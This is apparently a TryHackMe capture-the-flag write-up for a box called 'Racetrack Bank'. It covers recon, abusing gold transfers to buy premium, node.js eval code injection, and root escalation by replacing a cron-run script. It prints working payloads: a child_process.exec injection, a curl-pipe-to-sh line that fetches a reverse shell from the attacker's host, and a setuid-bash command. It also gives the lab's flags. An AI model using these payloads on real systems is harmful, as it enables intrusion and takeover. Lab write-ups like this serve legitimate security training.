## TL;DR

In this challenge we cheat in order to get `10000 gold`. Then, we buy premium platform and exploit `RCE` in the `eval` on `node.js`.

We escalate to root using modifying of `cleanscript.sh` which is being executed by root crontab.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh and port `80` with nginx http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxnwgBjCjyJ+aWd6heYTvHySh7tEBlAO3Jv/wzZZe1Qo0dj4ZLzGohKkWBfsqH3zXqQn+nWOXKjLNMlGSfPmSNVtY5vWa+SNHZIkvyILsv0NgoPwU4QB4TVP5DCGiz6tBYk92j26vLmP0kxD+sd7KNmmRHnjrVd8WhWhjGCzcGUte5tAnxNGHZUPyX9o6m0LsbC1goWrQSyJ6dGFtausj5IzVGA9wO+vJD577KMy74QvLywLEe8KkNsjbejBphFsmz849OE9fq0Y+cfZbIdYQtQCD0ARC5SCluZ+c8BUB3G+c7ZanGyIzWV695dKYR/dru7/ElBT9xkwMlNZf2giNv
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKgVewqlT05Af1S9+0VideqdvN07wONAqm8iHSiQ/9mD3WS6uAeJzdfz8uX328uXfpaynISu12WuBQkki+1iYQY=
|   256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHg5lLniSCVt74z0uR1M/dCYjDnVWT8PdHCIJjk5eH5J
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Racetrack Bank
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `racetrackbank.thm` to my `/etc/hosts`.

### Get gold using cheating and then exploit eval on node js to get RCE

When I visited the main page, I noticed very simple application where you can login, you get one gold, you can send it to any user you want, and you can buy premium account that costs 10000 gold.



Okay, I wrote script that create users, and then send their money to my account, until I got the 10000 gold :D

```py

```



As you can see, the money is coming 


Now, I waited some time and finnaly got my 10000 gold.



Then, I quickly went to buy the premium account.

I saw we have some sort of calculator



Since it using `node.js` on the background, I suspected it uses `eval`, which can lead to `RCE`.
I tried to give this payload:
```js
require('child_process').exec('ping 192.168.138.59 -c 3')
```
And set up `tcpdump` listener:
```bash
sudo tcpdump -i tun0 icmp
```

It worked! we got `RCE`.



Now, let's put the payload of penelope inside `rev_shell.sh` and set up python http server:
```js
require('child_process').exec('curl http://192.168.138.59:8081/rev_shell.sh|sh')
```



we can grab the user flag:
```bash
brian@racetrack:~$ cat user.txt 
THM{178c31090a7e0f69560730ad21d90e70}
```

### Privilege Escalation to Root using modify cleanupscript.sh

I uploaded `pspy64`, we can see it executes `/home/brian/cleanup/cleanupscript.sh`



I can't change the file, however, I'm the owner of the folder, so i can simply delete this file and add my file:



Let's remove this file and then our own file that executes `chmod u+s /bin/bash`.
```bash
brian@racetrack:~/cleanup$ rm cleanupscript.sh
rm: remove write-protected regular file 'cleanupscript.sh'? y
brian@racetrack:~/cleanup$ echo -e 'chmod u+s /bin/bash' > cleanupscript.sh
```



Now, we can spawn the root shell and grab the root flag:



and the root flag
```bash
bash-4.4# cat root.txt 
THM{55a9d6099933f6c456ccb2711b8766e3}
```

BTW, the root crontab can be found at `/var/spool/cron/crontabs/root` 

